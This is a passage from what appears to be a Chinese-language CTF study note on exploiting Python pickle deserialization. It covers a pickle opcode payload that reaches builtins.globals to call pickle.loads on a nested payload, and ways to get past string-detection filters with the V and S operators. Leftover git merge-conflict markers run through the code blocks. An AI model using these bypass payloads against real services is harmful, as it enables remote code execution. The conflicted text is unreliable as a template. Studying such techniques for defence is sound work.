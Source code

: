这里需要把生成的 opcode 的 `S'bytestr'` 改成 byte 字符串，用了 `B`

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
opcode=b"cbuiltins\nglobals\np0\n0g0\n(tRp1\n0cbuiltins\ndict\np2\n0cbuiltins\ngetattr\np3\n0g3\n(g2\nS'get'\ntRp4\n0g4\n(g1\nS'pickle'\ntRp5\n0g3\n(g5\nS'loads'\ntRp6\n0g6\n(B\x0E\x00\x00\x00youropcodehere\ntR"
```

#### 绕过显式字符串检测

`V` 操作符可以进行 unicode 编码

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
Vsecr\u0065t
#secret
```

`S` 操作符可以识别十六进制

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
S'\x73ecret'
#secret
```

#### 使用内置函数绕过

<<<<<<< HEAD
涉及到一对概念：可迭代对象 (iterable) 和迭代器 (iterator). 最经典的迭代器就是 python 中的 for 循环.

```plain
=======
涉及到一对概念：可迭代对象 (iterable) 和迭代器 (iterator). 最经典的迭代器就是 python 中的 for 循环。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
for i in iterator
    ......
```

在 python 中有很多可迭代对象

1.  **序列类型**：
    -   列表（List）: `[1, 2, 3, 4, 5]`
    -   元组（Tuple）: `(1, 2, 3)`
    -   字符串（String）: `"Hello, World"`
2.  **映射类型**：
    -   字典（Dictionary）: `{1: 'One', 2: 'Two'}`
    -   注意：虽然字典本身不是可迭代的（字典迭代实质上是迭代其键，使用 `keys()`、`values()` 或 `items()` 方法可以分别迭代键、值或键值对），但从 Python 3.3 开始，字典也成为了可迭代对象，迭代时会返回其键。
3.  **集合类型**：
    -   集合（Set）: `{1, 2, 3}`
    -   frozenset（不可变集合）: `frozenset({1, 2, 3})`
4.  **迭代器类型**：
    -   自定义迭代器类（实现了`__iter__()` 和`__next__()` 方法）
    -   内置迭代器对象，如 `range(5)` 或者通过 `iter()` 函数创建的迭代器
5.  **文件对象**：
    -   打开的文本文件或二进制文件，可通过逐行读取进行迭代
6.  **生成器表达式**：